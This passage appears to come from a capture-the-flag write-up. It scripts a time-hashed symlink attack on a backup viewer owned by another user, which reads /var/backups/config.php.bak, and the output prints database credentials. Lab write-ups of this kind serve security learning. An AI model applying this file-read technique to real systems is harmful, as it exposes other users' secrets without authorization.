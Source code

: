 Let's write a script that will create a file like this.

```bash
time=$(date +"%H:%M:%S")
hash=$(printf %s $time | md5sum | cut -d ' ' -f 1)
# create file
echo 'cyfun test' > $hash
# call backup
backup
```

If we execute the script we have no error now and the file is read:

```
chiv@forwardslash:/tmp/cyfun$ ./time.sh
----------------------------------------------------------------------
        Pain's Next-Gen Time Based Backup Viewer
        v0.1
        NOTE: not reading the right file yet,
        only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 18:51:46
cyfun test
```

So we can read a file owned by pain now by modifying our scipt:

```bash
time=$(date +"%H:%M:%S")
hash=$(printf %s $time | md5sum | cut -d ' ' -f 1)
# create file
ln -s /var/backups/config.php.bak $hash
# call backup
backup
```

Now we can read `/var/backups/config.php.bak`:
```php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'pain');
define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
define('DB_NAME', 'site');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```
